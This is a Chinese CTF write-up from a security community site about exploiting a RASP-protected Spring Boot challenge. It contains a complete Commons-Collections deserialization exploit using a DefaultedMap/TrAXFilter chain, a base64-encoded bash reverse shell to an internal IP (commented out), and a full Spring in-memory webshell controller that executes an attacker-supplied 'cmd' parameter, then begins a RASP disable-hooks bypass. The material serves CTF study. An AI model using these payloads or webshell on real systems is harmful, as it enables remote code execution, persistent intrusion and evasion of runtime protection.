# RASP之内存马后渗透浅析-先知社区

> **来源**: https://xz.aliyun.com/news/17860  
> **文章ID**: 17860

---

# 题目：

在邑网杯线下赛有题Springboot



附件是一个jar包还有一个rasp。

# RASP

RASP全称是Runtime applicaion self-protection，在2014念提出的一种应用程序自我保护技术，将防护功能注入到应用程序之中，通过少量的Hook函数监测程序的运行，根据当前的上下文环境实时阻断攻击事件。

目前Java RASP主要是通过Instrumentation编写Agent的形式，在Agent的premain和agentmain中加入检测类一般继承于ClassFileTransformer，当程序运行进来的时候，通过类中的transform检测字节码文件中是否有一些敏感的类文件，比如ProcessImpl等。简单的可以理解为通过Instrumentation来对JVM进行实时监控。

Instrumentation API 提供了两个核心接口：ClassFileTransformer 和 Instrumentation。ClassFileTransformer 接口允许开发者在类加载前或类重新定义时对字节码进行转换。Instrumentation 接口则提供了启动时代理和重新定义类的能力

与传统 WAF 对比， RASP 实现更为底层，规则制定更为简单，攻击行为识别更为精准。



# 环境复现

docker

```
docker pull openjdk:8-jdk
docker run -p 45412:8888 -it --rm openjdk:8-jdk sh
java -javaagent:./rasp/rasp.jar -jar DeSpring.jar
```

# 题目分析



jar包反编译之后，看到在/user/info的data参数能够传入base64的恶意字节码，同时有CC的依赖

SecurityObjectInputStream类中的黑名单



由于启动了RASP，我们还得去看看插件禁用了那些黑名单



# 链子分析：

发现LazyMap和DefaultedMap都没ban，Hashtable也没有ban

于是就想到一条CC链，就是前半段是CC7后半段是CC3，因为DefaultedMap跟LazyMap相似的，却比较少人知道

这里就拿DefaultedMap这条链子来分析。

```
Hashtable#readObject()
DefaultedMap#get()
InstantiateTransformer#transform()
    newInstance()
TrAXFilter#TrAXFilter()
TemplatesImpl#newTransformer()
TemplatesImpl#getTransletInstance()
TemplatesImpl#defineTransletClasses
    newInstance()
    Runtime.exec()
```

首先DefaultedMap也有readObject()



反序列化触发Hashtable#readObject()



这里传进去的key其实就是DefaultedMap

跟进reconstitutionPut(table, key, value)



虽然DefaultedMap没有equals方法，但他继承了AbstractMapDecorator所以，此时key如果是DefaultedMap则会调用父类AbstractMapDecorator的equals方法。



map属性是通过DefaultedMap传递的，我们在构造利用链的时候，通过DefaultedMap的静态方法decorate将HashMap传给了map属性，因此这里会调用HashMap的equals方法

我们在HashMap中并没有找到一个名字为equals的成员方法，但是通过分析发现HashMap继承了AbstractMap抽象类，该类中有一个equals方法



抽象类AbstractMap的equals方法进行了更为复杂的判断：

1、判断是否为同一对象  
2、判断对象的运行类型  
3、判断Map中元素的个数,一定要为两个以上  
当以上三个判断都不满足的情况下，则进一步判断Map中的元素，也就是判断元素的key和value的内容是否相同，在value不为null的情况下，m会调用get方法获取key的内容，虽然对象o向上转型成Map类型，但是m对象本质上是一个DefaultedMap。因此m对象调用get方法时实际上是调用了DefaultedMap的get方法。



这里的key是传过来的key,条件是this.map没有这个key即可。

```
HashMap hashmap=new HashMap();
hashmap.put("exp",TrAXFilter.class);
```

我们是利用这样的方式修改传进去的key



然后就会自动步入第二个if条件。

发现这当value是transformer的实例的时候,会调用value的transform方法,来看看构造方法,这里就用一个就行了

同时这里的value是我们可控的,我们可以直接利用反射去传进一个value

```
Field f = DefaultedMap.class.getDeclaredField("value");
```

所以找到我们能用的transformer就行

InstantiateTransformer就是transformer的实例化类并且在c3链中有,这里就再回顾一遍它的构造方法有一个是

```
public InstantiateTransformer(Class[] paramTypes, Object[] args) {
    this.iParamTypes = paramTypes;
    this.iArgs = args;
}

```

这里paramTypes其实就是args的类型,而args就是paramTypes的实例,看transformer



发现就是实例化input类,这里构造器的种类和实例化参数都是我们可控的,之前c3链用到了TrAXFilter,这个类有个一个构造方法,会调用TransformerImpl的newtransformer从而加载类

最终poc：

ExpCalcTemplatesImpl.class

```
/**
 * @className ExpCalcTemplatesImpl
 * @Author shushu
 * @Data 2025/4/22
 **/
package Expclass;

/**
 * @className TestTemplatesImpl
 * @Author shushu
 * @Data 2025/2/12
 **/

import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

public class ExpCalcTemplatesImpl extends AbstractTranslet {

    public ExpCalcTemplatesImpl() {
        super();
        try {
//            Runtime.getRuntime().exec("bash -c {echo,YmFzaCAtaSA+Ji9kZXYvdGNwLzE5Mi4xNjguMi4xMC84NjY2IDA+JjE=}|{base64,-d}|{bash,-i}");
            Runtime.getRuntime().exec("calc");
        }catch (Exception e){
            e.printStackTrace();
        }
    }

    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }
}
```

test.class

```
/**
 * @className test
 * @Author shushu
 * @Data 2025/4/19
 **/
package CCtesu;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import com.sun.org.apache.xml.internal.security.exceptions.Base64DecodingException;
import com.sun.org.apache.xml.internal.security.utils.Base64;
import javassist.CannotCompileException;
import javassist.ClassPool;
import javassist.CtClass;
import javassist.NotFoundException;
import org.apache.commons.collections.functors.FactoryTransformer;
import org.apache.commons.collections.functors.InstantiateFactory;
import org.apache.commons.collections.map.DefaultedMap;

import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.Array;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationTargetException;
import java.net.URLEncoder;
import java.util.HashMap;
import java.util.Hashtable;
import java.util.Map;
//import SpringbootMem.EvilController;
public class test {

    public static void main(String[] args) throws IllegalAccessException, IOException, ClassNotFoundException, NoSuchFieldException, Base64DecodingException, NoSuchMethodException, InvocationTargetException, InstantiationException, NotFoundException, CannotCompileException {
//        byte[] code = Base64.decode(makeClass("Expclass.EvilController"));
        byte[] code = Base64.decode(makeClass("Expclass.ExpCalcTemplatesImpl"));

        //反射设置 Field
        TemplatesImpl templates = new TemplatesImpl();
        setFieldValue(templates, "_bytecodes", new byte[][]{code});
        setFieldValue(templates, "_name", "HelloTemplatesImpl");
        setFieldValue(templates,"_tfactory", new TransformerFactoryImpl());

        InstantiateFactory instantiateFactory = new InstantiateFactory(TrAXFilter.class,new Class[]{Templates.class},new Object[]{templates});
        FactoryTransformer factoryTransformer = new FactoryTransformer(instantiateFactory);

        //LazyMap实例
        Map innerMap1 = new HashMap();
        Map innerMap2 = new HashMap();

        Map DefaultedMap1 = DefaultedMap.decorate(innerMap1,factoryTransformer);
        DefaultedMap1.put("yy", 1);

        Map DefaultedMap2 = DefaultedMap.decorate(innerMap2,factoryTransformer);
        DefaultedMap2.put("zZ", 1);

        Hashtable hashtable = new Hashtable();
        setFieldValue(hashtable, "count", 2);
        Class nodeC = Class.forName("java.util.Hashtable$Entry");
        Constructor<?> nodeCons = nodeC.getDeclaredConstructor(int.class, Object.class, Object.class, nodeC);
        nodeCons.setAccessible(true);
        Object tbl = Array.newInstance(nodeC, 2);
        Array.set(tbl, 0, nodeCons.newInstance(0, DefaultedMap1, 1, null));
        Array.set(tbl, 1, nodeCons.newInstance(0, DefaultedMap2, 2, null));
        setFieldValue(hashtable, "table", tbl);

        //序列化
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(hashtable);
        oos.flush();
        oos.close();
        String base64String = java.util.Base64.getEncoder().encodeToString(baos.toByteArray());
        System.out.println(base64String);

        ByteArrayInputStream in = new ByteArrayInputStream(baos.toByteArray());
        ObjectInputStream ois = new ObjectInputStream(in);
        Object ob = (Object) ois.readObject();
    }

    private static byte[] makeClass(String className) throws IOException, CannotCompileException, NotFoundException {
        final CtClass clazz;
        ClassPool pool = ClassPool.getDefault();
        clazz = pool.get(className);
        byte[] classBytes = clazz.toBytecode();
        classBytes[7] = 49;
        return Base64.encode(classBytes).getBytes();
    }

    public static void setFieldValue(Object object, String fieldName, Object value) {
        try {
            Field field = object.getClass().getDeclaredField(fieldName);
            field.setAccessible(true);
            field.set(object, value);
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
    public static Object getFieldValue(final Object obj, final String fieldName) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        return field.get(obj);
    }

}
```



这里没用反射构造类是因为后面的不出网要打内存马

# RASP绕过

这里先给出我们的内存马

```
/**
 * @className SpringMemShell
 * @Author shushu
 * @Data 2025/4/22
 **/
package Expclass;
/**
 * @className EvilController
 * @Author shushu
 * @Data 2025/4/19
 **/

import Expclass.JvmRaspBypass.Cmd;
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;
import org.springframework.web.bind.annotation.RequestMapping;
import org.springframework.web.context.WebApplicationContext;
import org.springframework.web.context.request.RequestContextHolder;
import org.springframework.web.context.request.ServletRequestAttributes;
import org.springframework.web.servlet.mvc.condition.*;
import org.springframework.web.servlet.mvc.method.RequestMappingInfo;
import org.springframework.web.servlet.mvc.method.annotation.RequestMappingHandlerMapping;
import sun.misc.Unsafe;

import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.IOException;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.Method;

import static CCtesu.test.getFieldValue;

public class EvilController extends AbstractTranslet {

    public EvilController() throws Exception{
        // 1. 利用spring内部方法获取context
        WebApplicationContext context = (WebApplicationContext) RequestContextHolder.currentRequestAttributes().getAttribute("org.springframework.web.servlet.DispatcherServlet.CONTEXT", 0);
        // 2. 从context中获得 RequestMappingHandlerMapping 的实例
        RequestMappingHandlerMapping mappingHandlerMapping = context.getBean(RequestMappingHandlerMapping.class);
        // 3. 通过反射获得自定义 controller 中的 Method 对象
        Method method = EvilController.class.getMethod("test");
        // 4. 定义访问 controller 的 URL 地址
        PatternsRequestCondition url = new PatternsRequestCondition("/shell");
        // 5. 定义允许访问 controller 的 HTTP 方法（GET/POST）
        RequestMethodsRequestCondition ms = new RequestMethodsRequestCondition();
        // 6. 在内存中动态注册 controller
        Field configField = mappingHandlerMapping.getClass().getDeclaredField("config");
        configField.setAccessible(true);

        RequestMappingInfo.BuilderConfiguration config = (RequestMappingInfo.BuilderConfiguration) configField.get(mappingHandlerMapping);
        RequestMappingInfo info = RequestMappingInfo.paths("/shell").options(config).build();


        EvilController springBootMemoryShellOfController = new EvilController("ycxlo");
        mappingHandlerMapping.registerMapping(info, springBootMemoryShellOfController, method);
    }

    public EvilController(String test){

    }

    public void test() throws Exception{
        // 获取request和response对象
        HttpServletRequest request = ((ServletRequestAttributes) (RequestContextHolder.currentRequestAttributes())).getRequest();
        HttpServletResponse response = ((ServletRequestAttributes) (RequestContextHolder.currentRequestAttributes())).getResponse();
        // 获取cmd参数并执行命令
        String command = request.getParameter("cmd");

        if(command != null){
            try {

                java.io.PrintWriter printWriter = response.getWriter();
                String o = "you_are_successful!!!!!!!!!";

                ProcessBuilder p;
                if(System.getProperty("os.name").toLowerCase().contains("win")){
                    p = new ProcessBuilder(new String[]{"cmd.exe", "/c", command});
                }else{
                    p = new ProcessBuilder(new String[]{"/bin/sh", "-c", command});
                }
                java.util.Scanner c = new java.util.Scanner(p.start().getInputStream()).useDelimiter("\A");

                o = c.hasNext() ? c.next(): o;
                c.close();
                printWriter.write(o);
                printWriter.flush();
                printWriter.close();
            }catch (Exception ignored){

            }

        }
    }
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }


    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }
}
```

这里如果用内存马直接打，只是回显you\_are\_successful!!!!!!!!!，但根本执行不了命令



## 卸载功能

反编译题目给的rasp-engine.jar

里面有一个类com.baidu.openrasp.config.Config;

有个属性disableHooks



在执行检测前中间的调用流程有个doCheckWithoutRequest,就会检测这个disableHooks的值

